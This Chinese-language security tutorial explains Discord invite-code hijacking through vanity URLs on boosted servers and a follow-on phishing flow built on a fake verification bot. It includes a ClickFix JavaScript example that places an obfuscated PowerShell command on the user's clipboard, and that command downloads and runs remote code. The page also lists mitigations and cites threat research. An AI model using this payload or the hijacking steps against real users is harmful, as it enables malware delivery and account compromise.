 # Discord 邀请劫持

{{#include ../../banners/hacktricks-training.md}}

Discord 的邀请系统漏洞允许威胁行为者声称过期或删除的邀请代码（临时、永久或自定义虚荣）作为任何 Level 3 提升服务器上的新虚荣链接。通过将所有代码标准化为小写，攻击者可以预先注册已知的邀请代码，并在原始链接过期或源服务器失去提升后静默劫持流量。

## 邀请类型和劫持风险

| 邀请类型               | 可劫持？ | 条件 / 评论                                                                                             |
|-----------------------|-------------|--------------------------------------------------------------------------------------------------------|
| 临时邀请链接          | ✅          | 过期后，代码变得可用，可以被提升服务器重新注册为虚荣 URL。                                           |
| 永久邀请链接          | ⚠️          | 如果被删除且仅由小写字母和数字组成，代码可能会再次变得可用。                                        |
| 自定义虚荣链接        | ✅          | 如果原始服务器失去 Level 3 Boost，其虚荣邀请将变得可供新注册。                                      |

## 利用步骤

1. 侦察
- 监控公共来源（论坛、社交媒体、Telegram 频道）以寻找匹配模式 `discord.gg/{code}` 或 `discord.com/invite/{code}` 的邀请链接。
- 收集感兴趣的邀请代码（临时或虚荣）。
2. 预注册
- 创建或使用一个具有 Level 3 Boost 权限的现有 Discord 服务器。
- 在 **服务器设置 → 虚荣 URL** 中，尝试分配目标邀请代码。如果被接受，该代码将被恶意服务器保留。
3. 劫持激活
- 对于临时邀请，等待原始邀请过期（或如果您控制源，则手动删除它）。
- 对于包含大写字母的代码，小写变体可以立即声明，尽管重定向仅在过期后激活。
4. 静默重定向
- 一旦劫持激活，访问旧链接的用户将无缝地被发送到攻击者控制的服务器。

## 通过 Discord 服务器的钓鱼流程

1. 限制服务器频道，使只有 **#verify** 频道可见。
2. 部署一个机器人（例如，**Safeguard#0786**）提示新来者通过 OAuth2 进行验证。
3. 机器人将用户重定向到一个钓鱼网站（例如，`captchaguard.me`），伪装成 CAPTCHA 或验证步骤。
4. 实施 **ClickFix** 用户体验技巧：
- 显示一个损坏的 CAPTCHA 消息。
- 指导用户打开 **Win+R** 对话框，粘贴预加载的 PowerShell 命令，然后按 Enter。

### ClickFix 剪贴板注入示例
```javascript
// Copy malicious PowerShell command to clipboard
const cmd = `powershell -NoExit -Command "$r='NJjeywEMXp3L3Fmcv02bj5ibpJWZ0NXYw9yL6MHc0RHa';` +
`$u=($r[-1..-($r.Length)]-join '');` +
`$url=[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($u));` +
`iex (iwr -Uri $url)"`;
navigator.clipboard.writeText(cmd);
```
这种方法避免了直接下载文件，并利用熟悉的用户界面元素来降低用户的怀疑。

## 缓解措施

- 使用包含至少一个大写字母或非字母数字字符的永久邀请链接（永不过期，不可重复使用）。
- 定期更换邀请代码并撤销旧链接。
- 监控 Discord 服务器的提升状态和个性化 URL 的声明。
- 教育用户验证服务器的真实性，并避免执行剪贴板粘贴的命令。

## 参考文献

- 从信任到威胁：被劫持的 Discord 邀请用于多阶段恶意软件交付 – https://research.checkpoint.com/2025/from-trust-to-threat-hijacked-discord-invites-used-for-multi-stage-malware-delivery/
- Discord 自定义邀请链接文档 – https://support.discord.com/hc/en-us/articles/115001542132-Custom-Invite-Link

{{#include ../../banners/hacktricks-training.md}}
